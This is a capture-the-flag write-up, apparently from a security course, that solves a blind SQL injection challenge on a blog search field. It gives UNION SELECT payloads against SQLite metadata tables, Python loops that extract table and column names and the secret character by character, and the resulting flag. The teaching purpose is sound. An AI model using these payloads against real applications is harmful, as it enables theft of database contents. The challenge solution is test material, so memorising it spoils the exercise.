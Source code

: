 # Challenge `Sometimes we are just temporarily blind` Writeup

- Vulnerability:
  - SQLi attack
- Where:
  - Search blog posts text field
- Impact:
  - allows users to find a hidden secret in the database

## Analyzing the server

This challenge consists in finding a hidden secret somewhere in the database but this time the only feedback we get from the server is the number of articles matching the search query.  
The search query in the search field remains the same as the last challenge `SELECT id, title, content FROM blog_post WHERE title LIKE '%%'%' OR content LIKE '%%'%'` (by inputting `%'`)

## Exploit

Since it's unknown where the secret is, a good starting place is to find which tables exists.
By using the search feedback (number of matching blog posts) it's possible to create a query to find the name of the existing tables letter by letter.
`asdfghjkl' UNION SELECT tbl_name, type, NULL FROM 'sqlite_master' WHERE type='table' AND substr(tbl_name,1,{i}) == '{text}'; --`, the fields `{i}` and `{text}` are used to iterate over the table name.
The `substr` function allows the query to be case sensitive contrary to the `LIKE` operator.  
First start by creating an alphabet containing all the possible characters for a table name and then using the above fields we iterate over the alphabet to see which letters match the table name.  
The script starts by creating a list of first letters:
```python
for letter in alph:
  r = session.get(URL + payload(letter,1))
  n = get_ntables(r)
  if n != "0":
      print("Found " + n + " with: " + letter)
      names.append(letter)
```
and then using this list tries to find the full name:
```python
while len(names) != 0:
    for name in names:
        for letter in alph:
            r = session.get(URL + payload(name + letter,len(name+letter)))
            n = get_matches(r)
            if n != "0":
                names.append(name + letter)
                print("Found " + n + " with: " + name + letter)
        names.remove(name)
```
Once the table name is found, repeat the process for the column name using the `pragma_table_info` table, 
`asdfghjkl' UNION SELECT name, NULL, NULL FROM pragma_table_info('super_s_sof_secrets') WHERE substr(name,1,{i}) == '{text}'; --`.  
Finally, using the table name and the column name find the secret using the query:  
`asdfghjkl' UNION SELECT secret, NULL, NULL FROM 'super_s_sof_secrets' WHERE substr(secret,1,{i}) == '{text}'; --`.

This reveals the secret `SSof{I_am_only_partially_blind_since_I_can_get_your_data_using_boolean_injection}`.  

## Implementation

These code snippets and full implementation can be found [here](sometimes-we-are-just-temporarily-blind.py).
```
